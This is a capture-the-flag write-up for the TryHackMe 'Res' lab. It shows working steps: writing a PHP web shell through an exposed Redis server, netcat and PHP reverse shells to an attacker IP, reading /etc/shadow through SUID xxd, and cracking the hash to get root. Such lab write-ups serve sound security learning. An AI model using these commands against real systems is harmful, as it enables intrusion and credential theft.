 # TryHackMe-Res

> Abdullah Rizwan | 12:00 AM | 4th November ,2020

## NMAP

Run the scan for all ports 
```
Nmap scan report for 10.10.199.149
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7


```

## PORT 6379

I used `https://book.hacktricks.xyz/pentesting/6379-pentesting-redis` to enumerate redis

`nc 10.10.199.149 6379`

Connect to the port using `netcat` and type `info` you'll get output like this

<img src="https://imgur.com/5hbIipH.png"/>

Now we need to use redis-cli client to interact with it more so install using `apt-get install redis-tools`

<img src="https://imgur.com/o4ciScd.png"/>

As you can see after installing the redis-cli we can interact with it 

Lets see if we can create a php page by changing directory to where apache fetches html pages and name the page to `redis.php` 
```
10.10.199.149:6379> config set dir /var/www/html
OK
10.10.199.149:6379> config set dbfilename redis.php
OK
10.10.199.149:6379> set test "<?php phpinfo(); ?>"
OK
10.10.199.149:6379> save
OK

```
<img src="https://imgur.com/Z1bKq16.png"/>

And it works so we can confirm that we can get a shell from this , now set a GET parameter that can inovoke system commands.

```
10.10.199.149:6379> set test "<?php system($_GET['command']); ?>"
OK
10.10.199.149:6379> save
OK
10.10.199.149:6379> 

```

<img src="https://imgur.com/gkUtH6O.png"/>

RCE exists so lets get a shell



`php -r '$sock=fsockopen("10.14.3.143",6666);exec("/bin/sh -i <&3 >&3 2>&3");'` - Didn't worked

`nc -e /bin/sh 10.14.3.143 6666` - Worked !

<img src="https://imgur.com/YVVAZeJ.png"/>

### User Flag
In `/home/vianka` We can find the user flag


### Root Flag

Now for the root flag by looing for `SUID` we see that `xxd` has an suid bit set so it can run as root by anyone

```
www-data@ubuntu:/$ find / -perm /4000 2>/dev/null 
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
www-data@ubuntu:/$ xxd /root/root.txt | xxd -r
thm{xxd_pr1v_escalat1on}
```




### Privilege Escalation 

We got the root flag without even being root but I love to find a way to get root so lets do that.We know that we can read almost anyting with `xxd` so lets try to read `/etc/shadow` and crack the user's hash 

`xxd /etc/shadow | xxd -r`

`vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::`

Run `johntheripper` on this hash

```
root@kali:~/TryHackMe/Easy/Res# john hash                        
Using default input encoding: UTF-8                                       
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes                                                                                              
Will run 4 OpenMP threads                                                                                                                           
Proceeding with single, rules:Single                                                                                                                
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 9 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance. 
Warning: Only 11 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 8 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 6 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
beautiful1       (vianka)
1g 0:00:00:04 DONE 2/3 (2020-11-04 01:25) 0.2183g/s 2533p/s 2533c/s 2533C/s maryjane1..cookies1
Use the "--show" option to display all of the cracked passwords reliably

```
Now login with `vinanka`

```
www-data@ubuntu:/$ su vianka
Password: 
vianka@ubuntu:/$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
vianka@ubuntu:/$ sudo bash
root@ubuntu:/# 

```

We are root !
